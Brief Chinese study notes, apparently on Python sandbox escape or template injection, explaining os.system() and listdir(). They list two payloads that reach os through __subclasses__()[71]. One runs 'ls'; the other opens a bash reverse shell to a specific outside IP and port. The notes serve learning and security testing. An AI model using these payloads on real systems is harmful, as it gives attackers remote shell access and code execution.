 os模块中的system()函数用来运行shell命令；但是不会显示在前端，会在系统上自己执行。

listdir()函数返回指定目录下的所有文件和目录名。返回当前目录（’.’)

命令执行payload:

```python
'a'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')
'a'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('bash -i >& /dev/tcp/47.107.12.14/7777 0>&1')
```

![[Pasted image 20220517143759.png]]